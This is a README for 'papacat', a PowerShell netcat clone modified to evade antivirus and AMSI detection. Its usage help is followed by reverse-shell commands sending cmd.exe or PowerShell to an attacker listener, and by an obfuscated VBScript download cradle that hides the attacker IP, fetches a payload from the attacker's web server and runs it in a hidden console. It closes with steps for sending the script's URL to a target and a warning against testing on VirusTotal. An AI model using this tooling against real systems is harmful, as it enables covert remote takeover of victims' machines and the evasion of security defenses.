      powercat - Netcat, The Powershell Version
     Github Repository: https://github.com/besimorhino/powercat
     
     This script attempts to implement the features of netcat in a powershell
     script. It also contains extra features such as built-in relays, execute
     powershell, and a dnscat2 client. 
     
     Redpill papacat version its a modified version of powercat to bypass AV AMS1 detection.
     
     
     Usage: papacat [-c or -l] [-p port] [options]
     -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                     If you are using -dns, specify the DNS Server to send queries to.
            
     -l              Listen Mode. Start a listener on the port specified by -p.
  
     -p  <port>      Port. The port to connect to, or the port to listen on.
  
     -e  <proc>      Execute. Specify the name of the process to start.
  
     -ep             Execute Powershell. Start a pseudo powershell session. You can
                     declare variables and execute commands, but if you try to enter
                     another shell (nslookup, netsh, cmd, etc.) the shell will hang.
            
     -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                     connecting. Default: 60
            
     -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                     established. Used for moving files. You can provide the path to a file,
                     a byte array object, or a string. You can also pipe any of those into
                     papacat, like 'aaaaaa' | papacat -c 10.1.1.1 -p 80
            
     -o  <type>      Output. Specify how papacat should return information to the console.
                     Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.
            
     -of <path>      Output File.  Specify the path to a file to write output to.
            
     -d              Disconnect. papacat will disconnect after the connection is established
                     and the input from -i is sent. Used for scanning.
            
     -rep            Repeater. papacat will continually restart after it is disconnected.
                     Used for setting up a persistent server.
                  
     -g              Generate Payload.  Returns a script as a string which will execute the
                     papacat with the options you have specified. -i, -d, and -rep will not
                     be incorporated.
                  
     -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                     can be executed in this way: powershell -E <encoded string>
     -h              Print this help message.
     
     Examples:
     Listen on port 8000 and print the output to the console.
         papacat -l -p 8000 -v
  
     Connect to 10.1.1.1 port 443, send a shell, and enable verbosity.
         papacat -c 10.1.1.1 -p 443 -e cmd -v
  
     Send a file to 10.1.1.15 port 8000.
         papacat -c 10.1.1.15 -p 8000 -i C:\inputfile
  
     Write the data sent to the local listener on port 4444 to C:\outfile
         papacat -l -p 4444 -of C:\outfile
  
     Listen on port 8000 and repeatedly server a powershell shell.
         papacat -l -p 8000 -ep -rep -v

<br />

# papacat Manual Execution

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/papacat_rev_shell/papacat.ps1" -OutFile "papacat.ps1"
```

<br />

#### handler (listenner)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -l -p 666 -v
```

#### Cmd Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -v
```

#### powershell Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -ep -p 666 -v
```

---

<br /><br />

# Automation - Obfuscation ( @Meterpeter )

<br />

#### [update.vbs] download crandle
```vbscript
' Author: @r00t-3xp10it (ssa)
' Application: papacat download crandle
' Description:
'   This VBS will download Trigger.ps1 (rev tcp shell) from attacker webserver
'   imports module and executes module in a hidden console. ( background )
' ---

dIm Char,Cmd,Layback
Char="@!COLOMBO@!"+":007:VIRIATO@!"+"NAVIGATOR@!"
Layback=rEpLaCe(Char, "@!", ""):Cmd=rEpLaCe(Layback, ":007:", "")

set ObjConsole = CreateObject("Wscript.Shell")
ObjConsole.Run("powershell.exe cd $Env:TMP;iwr -Uri http://"+Cmd+"/Trigger.ps1 -OutFile Trigger.ps1;Import-Module -Name .\Trigger.ps1 -Force;Trigger-c Server@Local@host -e cmd.exe -p 666"), 0
}
```

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/papacat_rev_shell/papacat.ps1" -OutFile "papacat.ps1"
```

#### Generate - Cmd Client (payload) Obfucated
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -g > Trigger.ps1
```

<br />

## The next section requires using terminal to execute commands ...
- Get Local host adress to config the crandle
- replace <b><i>8080</i></b> by <b><i>apache\http.server</i></b> port (webserver)
```powershell
$Local_Host = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
$FirstRange = $Local_Host[0,1,2,3,4] -join ''                          # 192.1   - COLOMBO
$SeconRange = $Local_Host[5,6,7,8] -join ''                            # 68.1    - VIRIATO
$TrithRange = $Local_Host[9,10,11,12,13,14,15,16,17,18,19,20] -join '' #.72
$LastRanges = "$TrithRange" + ":" + "8080" -join ''                    #.72:8080 - NAVIGATOR
```
- Replace the attacker ip addr (obfuscated\split) on vbs crandle
```powershell
((Get-Content -Path "update.vbs" -Raw) -Replace "VIRIATO","$SeconRange")|Set-Content -Path "update.vbs"
((Get-Content -Path "update.vbs" -Raw) -Replace "COLOMBO","$FirstRange ")|Set-Content -Path "update.vbs"
((Get-Content -Path "update.vbs" -Raw) -Replace "NAVIGATOR","$LastRanges")|Set-Content -Path "update.vbs" 
((Get-Content -Path "update.vbs" -Raw) -Replace "Server@Local@host","$Local_Host")|Set-Content -Path "update.vbs" 
``` 

<br />

- start the handler `Import-Module -Name .\papacat.ps1 -Force;papacat -l -p 666`
- Store update.vbs + copy Trigger.ps1 on attacker webserver (port 8080)
- send update.vbs url to target to trigger the client download (Trigger.ps1)
- execute update.vbs on target machine to get the connection back

![papacat](https://user-images.githubusercontent.com/23490060/155600050-539eeac6-26ee-46e0-a8eb-061daac5e38c.png)

<br /><br />

#### URL
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1<br />
https://www.ired.team/offensive-security/defense-evasion/bypassing-ids-signatures-with-simple-reverse-shells

# Final Notes
Dont Test this on VirusTotal or similar websites ...
